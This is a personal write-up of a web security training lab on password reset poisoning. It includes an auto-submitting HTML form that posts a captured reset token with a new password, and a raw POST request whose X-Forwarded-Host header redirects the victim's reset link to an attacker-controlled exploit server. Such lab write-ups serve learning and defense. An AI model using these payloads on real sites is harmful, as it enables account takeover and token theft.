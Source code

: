 # Lab: Password reset poisoning via middleware
## Description

1. Login to `wiener`. Get email address.
2. Go to password reset function and reset his email
3. I first attempted to take the password reset POST method and converting it into a GET request, but the server-side didn't accept that. So we cannot construct a simple link that will trigger a password reset - it has to be POST.
4. Use the exploit server to create trigger a POST request being sent.
HTTP Header:
```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
```
HTTP body
```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ac011f681f9de65ec0a017d50033001e.web-security-academy.net/forgot-password?temp-forgot-password-token=mfUUjPVdCGMCgxzzM1nAfRX27GNes4hY" method="POST">
      <input type="hidden" name="temp&#45;forgot&#45;password&#45;token" value="mfUUjPVdCGMCgxzzM1nAfRX27GNes4hY" />
      <input type="hidden" name="new&#45;password&#45;1" value="password" />
      <input type="hidden" name="new&#45;password&#45;2" value="password" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
NOTE: The token only works once, so I had to keep updating it.
5. First I tried to add the link to the exploit in a blog post comment because I didn't care to read the lab description carefully enough. I only read `The user carlos will carelessly click on any links` and ommitted the following words `in emails that he receives`.
6. I shifted focus to the `forgot password` function and read the article about [password reset poisoning](https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning). 
7. I fianlly found the issue. By adding `X-Forwarded-Host: exploit-acdc1f4b1f7836d9c098a85701f000a9.web-security-academy.net` to the request the link in the email send to user would point to any hostname specified. By pointing the hostname to our exploit server should be enough to trick Carlos to click on the link and send his password reset token to us.
```yaml
POST /forgot-password HTTP/1.1
Host: acf01fa21fc936adc01da89800220034.web-security-academy.net
Content-Length: 83
X-Forwarded-Host: exploit-acdc1f4b1f7836d9c098a85701f000a9.web-security-academy.net
Content-Type: application/x-www-form-urlencoded

username=carlos%40exploit-acdc1f4b1f7836d9c098a85701f000a9.web-security-academy.net
```
But, this didn't do the trick. Instead of trying to guess Carlos' email address, we can simply set guess the username `username=carlos`
8. The password reset token should not show up in the Exploit Server access logs.


## Solution
See description
